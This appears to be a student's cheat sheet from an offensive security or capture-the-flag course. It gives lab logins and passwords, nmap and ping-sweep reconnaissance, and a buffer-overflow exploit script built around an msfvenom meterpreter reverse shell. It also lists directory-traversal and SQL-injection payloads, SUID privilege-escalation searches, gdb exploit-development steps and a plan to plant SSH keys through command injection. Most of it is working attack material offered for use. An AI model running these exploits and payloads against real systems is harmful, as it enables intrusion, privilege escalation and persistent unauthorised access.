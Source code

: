 # Useful Links

## GTFO BINS
https://gtfobins.github.io/

## Security CTFD Server
https://sec.cybbh.io/public/security/latest/index.html

	CTFD Server: http://10.50.20.250:8000	
	User: NIRI-505-M  
	Pass: gVN5chrkxW0bym1 	

## LinOps:
	ssh -X student@10.50.22.235
	password1

 ## Winops:

	xfreerdp /u:student /p:password /dynamic-resolution +clipboard /v:10.50.29.77

 # Host Discovery 

     nmap -v -sT -Pn -T4 -sV 192.168.28.111,120

## Places to check

	ip n
 	ip a / arp -a
  	cat /etc/hosts
   	ps -elf
    	ss -ntlp
     	cron
      /var/tmp
      /tmp
      	
     	
## HTTP Enumeration Script:

    nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80

## Ping Sweep: 

     for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done

     
### secureServerBuffo.py script
	#!/usr/bin/python2.7
	
	import socket
	
	'''
	625011AF
	625011BB
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.X.X lport=4444 -b "\x00" -f python
 	lhost = linux opstation, or whatever host is used to as the attack platform for operation. 
  
    Set multi/handler on msfconsole, & and use script with msfvenom payload 
	'''
	
	
	buf = "TRUN /.:/" #Exploit
	buf += "A" * 2003 #Buffer Offset
	buf += "\xa0\x12\x50\x62"  #JMP ESP
	buf += "\x90" * 15 #NOP SLED
	buf += #SHELLCODE HERE
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket
	
	s.connect(("0.0.0.0",412XX))    #IP and port to connect to through tunnel
 	print s.recv(1024)   #print response
	s.send(buf)       #sends the variable buf
	print s.recv(1024)   #print response
	s.close()         #close the connection



# Review 

nmap scan:

	nmap -v -sT -Pn -T4 -sV <ip>

http-enum scan

     	nmap -v -sT -Pn -T4 --script=http-enum.nse <ip> -p 80

      Check /img/ for network map

directory traversal:

	Usually found in File to Read search bar. 

	../../../../../etc/passwd
 	../../../../../etc/hosts
  
Fuzzing the pages:

	pick.php?product=7 OR 1=1 ;
 	products7 UNION SELECT 1,2,3

   	<URL>/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns	# golden Statement


Escalating Privs on Linux:

	find binaries with guid bit set. 

 	find / -type f -perm /2 -o -type d -perm /2 2>/dev/null  # Search for any file or directory that is writable by the context "other"

	find / -type f -perm /4000 -ls 2>/dev/null 	# finds commands with the suid bit set. 
 
 	find / -type f -perm /2000 -ls 2>/dev/null 	# finds commands with the guid bit set. 

	find / -type f -writable -o -type d -writable 2>/dev/null # Search for any file or directory that is writable by the current user /tmp 


Finding running service ports if nc doesn't give adequate results (Windows):
	
 	Grab pid # from: 
  		tasklist /sv | findstr <service name>
	run netstat -ano | findstr "pid#"

## Cronttab 
	/var/spool/cron/crontabs
	/etc/crontab


## Reverse Engineering:

 	file on the file

   	run the file 
    	gdb ./file
     	info functions

      	
	./reverse_engineer_me $(echo "AAAAAAAAAAAAAAAAAAAAAAA")
 	gdb-peda$ run <<<$(echo "./mybuff.py")

 	pdisass main 
  	EIP register
## On the other box:

env - gdb ./function 
dissassemble main
dissassemble (other func)
show env 
unset env
run program and crash it
info proc map
find /b <after the heap>, <end of the stack> oxff, oxe4
   ^convert to little endian^

   	unset env COLUMNS
    	unset env LINES
     	show env
      	run

       crash it
       info proc map
       
    

## Command Injection:

If Command injection is possible, then try to drop our public key into the users .ssh directory.
Generate new keys:

  	ssh-keygen -t rsa -b 4096
